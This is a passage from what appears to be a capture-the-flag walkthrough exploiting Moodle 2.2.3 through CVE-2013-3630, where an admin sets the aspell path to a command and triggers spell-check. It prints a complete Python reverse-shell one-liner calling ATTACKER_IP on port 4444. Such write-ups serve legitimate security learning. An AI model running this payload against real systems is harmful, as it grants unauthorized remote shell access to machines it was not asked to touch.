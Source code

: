 The admin's account has more privileges and we can see that we now have an additional '**Site administration**' section on the left.

After doing some research online on how we can exploit this version of moodle (v 2.2.3), I found the following CVE:

https://www.cvedetails.com/cve/CVE-2013-3630/

---

*Moodle through 2.5.2 allows remote authenticated administrators to execute arbitrary programs by configuring the aspell pathname and then triggering a spell-check operation within the TinyMCE editor.*  

---

With this, we can open a reverse shell, allowing us to gain a foothold into the target machine.

<br>

To carry out the exploit, we need to update the **aspell path** and the **spell engine**. Both of these settings can be found by typing in '**spell**' in the search bar under '**Settings**'.

* **aspell path**

Let's set the path to the following reverse shell payload from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md: 

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

<br>

* **spell engine**

We also make sure to set the **spell engine** to **PSpellShell**.

<img style="float: left;" src="screenshots/screenshot33.png">

<br>
